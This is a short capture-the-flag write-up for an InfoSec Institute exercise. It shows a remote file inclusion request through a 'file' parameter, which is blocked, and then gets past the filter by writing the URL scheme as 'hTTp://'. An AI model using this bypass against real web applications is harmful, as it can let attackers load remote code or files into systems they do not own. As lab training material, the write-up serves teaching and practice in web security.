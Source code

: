 First try to do request

> http://ctf.infosecinstitute.com/ctf2/exercises/ex4.php?file=http://infosecinstitute.com/file4.txt.php

well we got error

You are trying to add a remote URL.

try to bypass this

> http://ctf.infosecinstitute.com/ctf2/exercises/ex4.php?file=hTTp://infosecinstitute.com/file4.txt.php

done.